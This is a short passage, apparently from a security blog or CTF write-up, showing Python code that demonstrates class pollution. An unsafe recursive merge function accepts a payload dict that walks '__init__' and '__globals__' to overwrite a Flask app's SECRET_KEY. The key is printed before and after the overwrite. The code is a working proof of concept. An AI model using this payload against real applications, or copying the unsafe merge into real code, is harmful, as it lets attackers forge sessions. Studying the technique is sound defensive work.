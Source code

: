 ```python
                merge(v, dst.get(k))
            else:
                dst[k] = v
        elif hasattr(dst, k) and type(v) == dict:
            merge(v, getattr(dst, k))
        else:
            setattr(dst, k, v)

print(app.config['SECRET_KEY'])
instance = test()
payload = {
    "__init__":{
        "__globals__":{
            "app":{
                "config":{
                    "SECRET_KEY":"abc"
                }
            }
        }
    }
}
merge(payload, instance)

print(app.config['SECRET_KEY'])
```

![4](/medias/show-DSB/4.png)
